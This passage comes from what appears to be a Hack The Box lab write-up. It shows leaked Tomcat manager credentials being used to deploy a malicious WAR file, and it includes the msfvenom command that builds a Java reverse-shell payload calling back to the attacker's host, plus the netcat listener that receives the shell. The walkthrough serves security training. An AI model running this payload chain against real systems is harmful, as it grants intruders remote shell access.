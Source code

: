 ![image-20210514074103740](https://0xdfimages.gitlab.io/img/image-20210514074103740.png)

This is the `tomcat_users.xml` file that configures access to Tomcat.

### Malicious WAR

#### Access Tomcat Manager

The admin user in the backup file has access to `manager` and `manager-gui`, so I’ll try visiting `http://10.10.10.55:8080` again, and entering the creds lets me in:

![image-20210514090529954](https://0xdfimages.gitlab.io/img/image-20210514090529954.png)

#### Generate WAR

To get a shell from here is relatively simple, just like in [Jerry](/2018/11/17/htb-jerry.html#exploiting-tomcat) and [Tabby](/2020/11/07/htb-tabby.html#text-based-manager) (though in Tabby I had to use the text-based manager instead of the html one because the user I leaked had only `manager-script`).

I’ll generate a reverse shell payload using `msfvenom`:

```

oxdf@parrot$ msfvenom -p java/shell_reverse_tcp LHOST=10.10.14.15 LPORT=443 -f war -o rev.war
Payload size: 13318 bytes
Final size of war file: 13318 bytes
Saved as: rev.war

```

#### Upload

To upload the WAR, I’ll use the “WAR file to deploy” section on the page, using the browse button to select `rev.war`:

![image-20210514091040405](https://0xdfimages.gitlab.io/img/image-20210514091040405.png)

On hitting Deploy, `/rev` now shows up as an application:

![image-20210514091140439](https://0xdfimages.gitlab.io/img/image-20210514091140439.png)

With `nc` listening, I’ll click `/rev`, and it returns a blank page, but also a shell at `nc`:

```

oxdf@parrot$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.55] 51386
id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)

```

Shell upgrade with the standard trick:
